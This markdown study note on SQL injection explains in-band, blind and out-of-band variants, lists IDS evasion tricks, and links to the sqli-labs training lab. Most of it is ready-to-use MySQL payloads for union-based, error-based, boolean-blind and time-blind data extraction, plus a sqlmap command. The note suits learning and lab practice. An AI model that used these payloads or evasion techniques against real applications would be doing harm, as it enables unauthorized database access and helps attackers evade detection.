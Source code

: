 ## SQL Injection Attack
`` SQL injection (SQLi) is an application security weakness that allows attackers to control an application’s database – letting them access or delete data, change an application’s data-driven behavior, and do other undesirable things – by tricking the application into sending unexpected SQL commands. ``

## Types of SQL Injection (SQLi)
### In-band SQLi (Classic SQLi) - an attacker is able to use the same communication channel to both launch the attack and gather results.
``Error-based SQLi - relies on error messages thrown by the database server to obtain information about the structure of the database.``

``Union-based SQLi - leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.``

### Inferential SQLi (Blind SQLi) - no data is actually transferred via the web application and the attacker would not be able to see the result of an attack in-band (which is why such attacks are commonly referred to as “blind SQL Injection attacks”)
``Blind-boolean-based SQLi - relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.``

``Blind-time-based SQLi - relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding ``

### Out-of-band SQLi -  an attacker is unable to use the same channel to launch the attack and gather results

### Evasion Technique

Use encryption.

Obfuscate string to avoid pattern matching.

Use Concatenation to confuse the IDS.

Use encoding like ASCII encoding, hexadecimal encoding to avoid detection.

Insert inline comments between query.


### [Audi 1 Lab](https://github.com/Audi-1/sqli-labs)
### [Audi 1 Lab Explaination](https://www.youtube.com/playlist?list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)
### [Useful Link](http://index-of.es/Varios-2/Advanced%20SQL%20Injection.pdf)


Union Based

```
order by 
union select
group_concat(table_name) from information_schema.tables where table_schema=database()
group_concat(column_name) from information_schema.columns where table_name='table_name'
group_concat(data) from table_name
```
Error Based
```
# Intro 

SELECT count(*) from information_schema.tables;
SELECT rand();
SELECT floor(1.5);
select 1 from y;
select count(*),username from users group by username;

#Variable
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;
SELECT @x;
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;
SELECT @x;

# Version
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)

# Table
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)
```
Boolean Based Blind
```
# Intro
select substr('abcde',1,1);
select ascii('a');
select ascii(substr(@@version,1,1));

# True or False
select ascii(substr(@@version,1,1)) < 50;
select ascii(substr(@@version,1,1)) < 40;
select ascii(substr(@@version,1,1)) = 49;

# Testing
1 and 1=1 -> True
1 and 1=2 -> False

# Version
and ascii(substr(@@version,1,1)) = 49 -> First Character
and ascii(substring(version(),2,1)) = 48 -> Second Character

# Table
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100

sqlmap -r test.txt -p search 

```
Time Based Blind
```
# Intro
SELECT IF(500<1000, "YES", "NO");
sleep(5);
and if(500<1000, sleep(5), NULL) -> Sleep
and if(500>1000, sleep(5), NULL) -> Do Not Sleep

# Version
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)

# Table
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)
```

Cheatsheet
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [acunetix](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [lol Security](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md)


